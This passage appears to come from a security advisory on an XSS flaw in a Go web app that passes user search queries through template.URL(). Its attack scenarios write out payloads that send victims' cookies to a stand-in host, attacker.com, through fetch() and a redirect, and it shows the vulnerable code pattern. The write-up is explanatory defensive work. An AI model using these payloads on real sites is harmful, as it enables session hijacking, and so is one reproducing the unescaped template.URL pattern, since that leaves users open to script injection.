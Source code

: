 **Scenario 2: Event Handler Injection**
An attacker constructs a search query like: `https://example.com/search?q=https://search.example.com/?q=dummy%20onmouseover=javascript:fetch('https://attacker.com/steal?cookie='+document.cookie)`. The application processes this and creates a malicious URL that includes an event handler. When the victim hovers over the link (not even clicking), the JavaScript executes, sending their cookies to the attacker's server.

**Scenario 3: Data URL with Embedded HTML**
An attacker creates a payload like: `https://example.com/search?q=data:text/html,<script>document.location='https://attacker.com/steal?data='+encodeURIComponent(document.cookie)</script>`. When rendered by the template and clicked by a user, this opens a data URL containing HTML with an embedded script that redirects to the attacker's site along with the victim's cookies.

**Scenario 4: Phishing with Deceptive URLs**
An attacker constructs a URL that visually resembles a legitimate site but actually contains malicious code: `https://example.com/search?q=https://acmecorp-secure-login.com` (a site they control). Because `template.URL()` doesn't escape the output, the deceptive URL appears legitimate in the user interface, increasing the likelihood that users will click it and be directed to a phishing site.

# Impact Analysis
**Business Impact:**
- Potential breach of user account security through session hijacking
- Compromise of sensitive user information that might be accessible via JavaScript
- Reputational damage if the application is exploited to attack users
- Loss of customer trust if security incidents become public
- Potential regulatory penalties if personal data is compromised (GDPR, CCPA)
- Resources required for incident response and remediation
- Possible need for user notification if sensitive data is compromised

**Technical Impact:**
- Execution of arbitrary JavaScript in the context of the application's domain
- Access to cookies, localStorage, and sessionStorage within the application's domain
- Ability to make authenticated AJAX requests on behalf of the victim
- Potential to manipulate the DOM and modify content presented to users
- Possible credential theft through injected forms or redirects
- Bypassing of same-origin policy protections within the application's context
- Potential for more sophisticated attacks using the initial XSS as an entry point
- Browser security feature bypass (like Content Security Policy) if implemented incorrectly

# Technical Details
The vulnerability stems from a fundamental misunderstanding of how Go's `html/template` package and specifically the `template.URL()` function work. Let's break down the vulnerable code and explain why it's problematic:

```go
// Extract user-supplied query parameter
userQuery := r.URL.Query().Get("q")
// Construct URL using formatted string directly from user input
constructedURL := fmt.Sprintf("https://search.example.com/?q=%s", userQuery)
// Directly converting to template.URL does not perform additional escaping
safeURL := template.URL(constructedURL)

```
